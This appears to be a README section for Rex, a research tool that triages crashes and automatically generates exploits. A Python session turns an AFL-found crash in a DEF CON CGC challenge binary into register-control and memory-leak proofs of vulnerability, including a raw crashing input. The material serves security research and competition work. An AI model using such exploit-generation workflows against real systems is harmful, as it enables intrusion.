 ### Rex

At the moment rex offers a couple of features, crash triaging, crash exploration, and exploitation for certain kinds of crashes.

In the example below, we take a crashing input for `legit_00003` discovered by AFL. The vulnerability is a simple buffer overflow on the stack, however, before the vulnerable returns it calls memcpy with a destination parameter which was overwritten during the stack smash.
While Rex doesn't know how to exploit an arbitrary memcpy call (yet), it can be told to explore the crash until it finds an exploitation primitive which it knows how to exploit.

Exploit objects can take an crashing input and will attempt to turn it into an exploit which can set every register and leak data from an arbitrary address.

```python
# triage a crash
>>> crash = rex.Crash("../binaries-private/defcon24/legit_00003", "\x00\x0b1\xc1\x00\x0c\xeb\xe4\xf1\xf1\x14\r\rM\r\xf3\x1b\r\r\r~\x7f\x1b\xe3\x0c`_222\r\rM\r\xf3\x1b\r\x7f\x002\x7f~\x7f\xe2\xff\x7f\xff\xff\x8b\xc7\xc9\x83\x8b\x0c\xeb\x80\x002\xac\xe2\xff\xff\x00t\x8bt\x8bt_o_\x00t\x8b\xc7\xdd\x83\xc2t~n~~\xac\xe2\xff\xff_k_\x00t\x8b\xc7\xdd\x83\xc2t~n~~\xac\xe2\xff\xff\x00t\x8bt\x8b\xac\xf1\x83\xc2t~c\x00\x00\x00~~\x7f\xe2\xff\xff\x00t\x9e\xac\xe2\xf1\xf2@\x83\xc3t")
>>> crash.crash_type
'write_what_where'
>>> crash.explorable()
True
# explore the crash by setting segfaulting pointers to sane values and re-tracing
>>> crash.explore()
# now we can see that we control instruction pointer
>>> crash.crash_type
'ip_overwrite'
# generate exploits based off of this crash
>>> arsenal = crash.exploit()
# we generated a type 1 POV for every register
>>> arsenal.register_setters.keys()
['esp', 'edi', 'eax', 'ebp', 'edx', 'ebx', 'esi', 'ecx']
# and one Type 2 which can leak arbitrary memory
>>> len(arsenal.leakers)
1
# exploits are graded based on reliability, and what kind of defenses they can
# bypass
>>> arsenal.best_type1.register
'esi'
# exploits can be dumped in C, Python, or as a compiled POV
>>> arsenal.best_type2.dump_c('legit_x.c')
>>> arsenal.best_type2.dump_python('legit_x.py')
>>> arsenal.best_type2.dump_binary('legit_x.pov')
# also POVs can be tested against a simulation of the CGC architecture
>>> arsenal.best_type1.test_binary()
True
```
